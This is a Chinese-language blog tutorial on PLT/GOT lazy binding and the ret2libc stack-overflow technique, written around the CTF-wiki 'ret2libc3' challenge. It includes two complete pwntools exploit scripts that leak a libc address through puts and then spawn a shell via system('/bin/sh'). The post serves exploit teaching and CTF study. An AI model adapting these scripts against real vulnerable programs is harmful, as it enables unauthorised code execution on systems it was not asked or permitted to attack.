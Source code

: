 ```yaml
---
layout: post
title: ret2libc
category: StackOverflow
date: 2023-9-20 12:00:00
hide: true
---
```

ret2libc
<!-- more -->
# ret2libc

## plt、got、以及延迟绑定机制

首先写一下`plt`和`got`表，以及他们的延迟绑定机制。

复习一下C语言编译的四个阶段，预处理，编译，汇编，链接。

我们知道C语言程序一般会使用一些库函数，比如`printf()`这个库函数。而这个库函数的源码在哪里？在`libc`里面，因此C语言程序从文本文件编译成最后的可执行程序时，需要将库函数也处理好。我们以`printf()`函数为例子，写一下`plt`、`got`两个表的作用和延迟绑定机制。

在已经完成链接的代码中，调用`printf()`函数的大意是这样的：（只是示例，实际差不多）

```assembly
...
call print@plt
...
```

上面的意思就是调用哪个函数呢？调用`plt`表中的`print`函数。

而`plt`表中，对应`print@plt`的是这样一个部分：

```assembly
Disassembly of section .plt:

080482d0 <common@plt>:
 80482d0:	ff 35 04 a0 04 08    	pushl  0x804a004
 80482d6:	ff 25 08 a0 04 08    	jmp    *0x804a008
 80482dc:	00 00                	add    %al,(%eax)
	...

080482e0 <print@plt>:
 80482e0:	ff 25 0c a0 04 08    	jmp    *0x804a00c
 80482e6:	68 00 00 00 00       	push   $0x0
 80482eb:	e9 e0 ff ff ff       	jmp    80482d0 <_init+0x28>

080482f0 <__libc_start_main@plt>:
 80482f0:	ff 25 10 a0 04 08    	jmp    *0x804a010
 80482f6:	68 08 00 00 00       	push   $0x8
 80482fb:	e9 d0 ff ff ff       	jmp    80482d0 <_init+0x28>
```

上面分别有三个表项，分别是`common`（真实情况下不叫这个名字，而是最近的函数名）、`print`和`main`在`plt`表中的样子。

仍然看`print`表项，有三步：

第一步地址`80482e0`处是`jmp`到某个地址。这个其实就是`jmp`到`got`表中去查看`print`的真实地址了。

然而，此时`got`表中也没有存储`print`的真实地址，而是存储的`80482e6`。诶，这不是`print@plt`的第二步吗？怎么又返回到`plt`表中去了呢？

因为`plt`表中的第二步和第三步其实是“寻找`print`在`libc`中的地址，并将其写到`got`表中去”的意思。将真正的地址放到`got`表中后，以后若再次访问`print`函数的`got`表，就可以直接获得`print`函数的`libc`的地址了，这也就是延迟绑定机制。

总结一下，对于一个没有访问过的函数而言，查表流程是这样的：

`plt`->`got`->`plt`->`公共plt`->寻找在`libc`中的地址并存储到`got`表。

若该函数已经被访问过，则流程简单如下：

`call xxx@plt`->`plt`->`got`

## ret2libc流程

为什么要`ret2libc`？因为有的情况下，程序里面不会给我们提供一些显式的字符串，也没有可以利用的`gadgets`。但我们的程序需要使用库函数，是要连接`libc`库里面的，我们便可以利用`libc`库中的其他函数，只是需要知道函数在`libc`中的地址。虽然这个地址肯定是会变的，但是函数与函数间的相对地址不会变；或者说即使程序有ASLR保护，也只针对地址中间位进行随机，最低12位不会发生变化。因此我们只需要获得某一个函数在`libc`中的地址，就可以通过相对地址来获得其他的函数。

通过延迟访问机制后，我们即可明白：若直接访问一个没有访问过的函数的`got`表，是没有办法得到这个函数在`libc`中的真实地址的。因此，我们只能泄露一个已经访问的函数在`got`表中的地址。

这里写一个`wiki`里面的`exp`：

```python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print "leak libc_start_main_got addr and return to main again"
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

和另外一个，可以看一下区别：

```python
from pwn import *
from LibcSearcher import *

elf=ELF('ret2libc3')
p=process('./ret2libc3')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
start_addr = elf.symbols['_start']

#gdb.attach(p)
payload1='A'*112+p32(puts_plt)+p32(start_addr)+p32(puts_got)
p.sendlineafter("!?",payload1)
puts_addr=u32(p.recv(4))

libc=LibcSearcher('puts',puts_addr)
libcbase=puts_addr-libc.dump("puts")
system_addr=libcbase+libc.dump("system")
binsh_addr=libcbase+libc.dump("str_bin_sh")

payload2='A'*112+p32(system_addr)+p32(1234)+p32(binsh_addr)
p.sendlineafter("!?",payload2)

p.interactive()
```

首先两个`exp`基本都是这样一种思路：因为程序内部有`puts`函数，所以我们通过栈溢出来让该函数打印出某个已经使用过的函数在`libc`中的地址，从而通过相对地址来得到`system`函数，并设置返回地址为`main`函数或者`start`函数，来再次通过栈溢出到`system`函数来进行攻击。

然而，可以看到，两个`exp`在第二次栈溢出时填充的字符的长度是不相等的，相差8个字符长度。这里写下原因，因为第一个`exp`的第一次栈溢出是回到了`main`，第二个`exp`的第一次栈溢出是回到了`start`函数。

我们知道函数调用的顺序是：`start()`->`main()`->`其他函数()`

因此若回到`start()`函数，程序会再次调用`main()`函数，从而调用其他函数；

若回到`main()`函数，程序将直接调用其他函数。

两者相差一个`main()`函数的`return address `和`ebp`，因此刚好差8个字节。



此外，使用本地的`libc`：

```python
libc = ELF('./libc-2.19.so')
libcbase = write_libc - libc.symbols['write']
system_libc = libcbase + libc.symbols['system']
bin_sh_libc = libcbase + next(libc.search(b'/bin/sh'))
```



**也可以使用`libc`里面的`gadgets`。**